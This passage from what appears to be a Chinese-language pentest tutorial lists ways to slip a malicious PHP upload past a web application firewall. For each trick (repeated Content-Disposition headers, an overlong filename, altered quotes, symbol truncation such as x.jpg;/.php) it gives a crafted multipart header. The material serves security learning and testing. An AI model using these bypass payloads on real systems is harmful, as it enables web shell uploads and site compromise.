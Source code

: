 
#### 方法二：重复Content-Disposition字段，将恶意文件放在最后（直到绕过WAF）

> 
content-disposition:form-data; name="upload_file"; filename="xxxx";
content-disposition:form-data; name="upload_file"; filename="xxxx";
……
content-disposition:form-data; name="upload_file"; filename="x.php";
content-type: image/jpeg


#### 方法三：在filename处进行溢出，将恶意文件放在最后（直到绕过WAF）

> 
**content-disposition:form-data; name="upload_file"; filename="**vgdbcshjvebcvhascbwebckjbxc hewvcnx chjevwcj xn cec.xcne ccwe cewkccas e vgdbcshjvebcvhascbwebckjbxc hewvcnx chjevwcj xn cec.xcne ccwe cewkc esavcsaxAC  dvdsce vgdbcshjvebcvhascbwebckjbxc hewvcnx chjevwcj xn cec.xcne ccwe cewkc ecsdv dvdsce vgdbcshjvebcvhascbwebckjbxc hewvcnx chjevwcj xn cec.xcne ccwe cewkc e dvdsc **x.php";**
**content-type: image/jpeg**


 

## 符号变异绕过：

#### 方法一：在filename后面继续添加数据，让WAF认为还没检测完

> 
**content-disposition:form-data; name="upload_file"; filename="x.php";**xxxxxxxxxxxxxx
**content-type: image/jpeg**


#### 方法二：在filename的引号上做文章

去掉一个"，或者删除2个"

(让WAF认为是一个非用户输入的变量)

> 
content-disposition:form-data; name="upload_file"; filename="x.php;
content-type: image/jpeg


改为单引号（WAF可能只检测双引号里面的内容）

> 
content-disposition:form-data; name="upload_file"; filename='x.php';
content-type: image/jpeg


#### 方法三：尝试加上各种奇怪符号截断WAF的检查

但是文件又能被正常执行

> 
content-disposition:form-data; name="upload_file"; filename="**x.jpg;/.php**";
content-type: image/jpeg

